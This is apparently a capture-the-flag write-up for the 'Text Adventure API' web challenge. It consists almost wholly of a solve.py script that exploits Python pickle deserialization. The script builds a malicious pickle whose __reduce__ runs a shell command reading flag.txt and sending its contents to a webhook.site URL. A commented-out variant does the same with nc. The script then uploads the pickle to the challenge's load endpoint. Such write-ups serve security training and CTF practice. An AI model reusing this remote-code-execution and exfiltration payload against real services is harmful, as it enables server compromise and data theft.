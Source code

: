 # Text Adventure API
## Description
Explore my kitchen!

https://text-adventure-api.chall.pwnoh.io/api
## Author
mbund
## Resources
`export.zip` - source code
## Solution
A `pickle` RCE hack, check [refence](https://davidhamann.de/2020/04/05/exploiting-python-pickle/).  
solve.py:  
```python
import pickle, json, os, requests

url = "https://text-adventure-api.chall.pwnoh.io/api/"
local_url = "http://localhost:5000/api/"

s = requests.Session()

def load(file):
    return json.loads(s.post(url + "load", files={"file": file}).text)

class Test:
    def keys(self) -> Iterable:
        return ["current_location"]
    def __getitem__(self, __key: str) -> str:
        global room
        if __key == 'current_location':
            room["start"]["objects"]["flag"] = "Hi"
            return "start"
        return super().__getitem__(__key)


class RCE:
    def __reduce__(self):
        # no `nc` in the server
        # cmd = ('echo -e "GET /[REDECATED]/$(cat flag.txt) HTTP/1.1\r\nHost: webhook.site\r\n\r\n" | nc webhook.site 80')
        cmd = 'python -c "import urllib.request; response = urllib.request.urlopen(\'https://webhook.site/[REDECATED]/$(cat flag.txt)\');"'
        return os.system, (cmd,)



with open("../data2.pkl", "wb") as f:
    f.write(pickle.dumps(RCE()))

# print(examine())
with open("../data2.pkl", "rb") as f:
    print(load(f))
    
```